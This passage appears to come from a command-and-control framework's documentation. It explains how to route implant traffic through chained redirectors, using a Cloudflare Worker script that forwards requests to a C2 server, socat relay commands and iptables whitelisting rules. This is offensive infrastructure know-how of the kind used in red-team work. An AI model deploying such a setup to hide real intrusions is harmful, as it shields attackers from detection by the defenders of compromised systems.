 ## Cloudflare worker redirector

For a more resilient and distributed setup, you can use Cloudflare Workers:

```javascript
// Cloudflare Worker code for redirector
addEventListener('fetch', event => {
  event.respondWith(handleRequest(event.request))
})

async function handleRequest(request) {
  // Modify headers as needed if you need it.
  const headers = new Headers(request.headers)
  headers.set('X-Forwarded-For', '192.168.1.100')
  
  // Forward request to C2 server
  const response = await fetch('https://192.168.1.100', {
    method: request.method,
    headers: headers,
    body: request.body
  })
  
  return response
}
```

## Redirector Chain

For additional security, you can chain multiple redirectors:

```
Implant -> Redirector1 (192.168.1.100) -> Redirector2 (192.168.1.150) -> C2 Server (192.168.1.200)
```

```bash
# First redirector (192.168.1.100)
# Listens on port 80 and redirects to second redirector
socat TCP4-LISTEN:80,fork,reuseaddr TCP4:192.168.1.150:80

# Second redirector (192.168.1.150)
# Listens on port 80 and redirects to final C2 server
socat TCP4-LISTEN:80,fork,reuseaddr TCP4:192.168.1.200:80
```

## Security Considerations

When using multi chain redirectors:

1. **IP Whitelisting**: Configure firewall rules to create a secure chain:
   ```bash
   # On Redirector1 (192.168.1.100) - Accepts all connections, this server will be the one used in Implant `callBackIP` in config.toml
   iptables -A INPUT -p tcp --dport 80 -j ACCEPT   # Allow all incoming HTTP traffic
   iptables -A INPUT -p tcp --dport 443 -j ACCEPT  # Allow all incoming HTTPS traffic

   # On Redirector2 (192.168.1.150) - Only accepts from Redirector1
   iptables -A INPUT -p tcp -s 192.168.1.100 --dport 80 -j ACCEPT   # Allow HTTP from Redirector1
   iptables -A INPUT -p tcp -s 192.168.1.100 --dport 443 -j ACCEPT  # Allow HTTPS from Redirector1
   iptables -A INPUT -p tcp --dport 80 -j DROP   # Block all other HTTP traffic
   iptables -A INPUT -p tcp --dport 443 -j DROP  # Block all other HTTPS traffic

   # On C2 Server (192.168.1.200) - Only accepts from Redirector2
   iptables -A INPUT -p tcp -s 192.168.1.150 --dport 80 -j ACCEPT   # Allow HTTP from Redirector2
   iptables -A INPUT -p tcp -s 192.168.1.150 --dport 443 -j ACCEPT  # Allow HTTPS from Redirector2
   iptables -A INPUT -p tcp --dport 80 -j DROP   # Block all other HTTP traffic
   iptables -A INPUT -p tcp --dport 443 -j DROP  # Block all other HTTPS traffic
   ```